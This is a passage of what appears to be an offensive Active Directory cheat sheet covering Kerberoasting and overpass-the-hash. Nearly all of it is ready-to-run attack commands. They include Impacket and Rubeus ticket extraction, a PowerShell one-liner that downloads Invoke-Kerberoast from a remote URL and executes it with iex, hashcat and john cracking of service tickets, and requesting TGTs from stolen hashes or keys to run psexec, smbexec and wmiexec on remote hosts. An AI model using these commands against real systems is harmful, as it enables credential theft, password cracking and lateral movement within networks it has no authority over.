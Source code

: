 ```text
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

### Windows \(internal\)

With [Rubeus](https://github.com/GhostPack/Rubeus):

```text
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:

```text
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:

```text
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

## Overpass The Hash/Pass The Key \(PTK\)

> NTDS.DIT, SAM files or lsass with mimi

### Linux \(external\)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```text
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
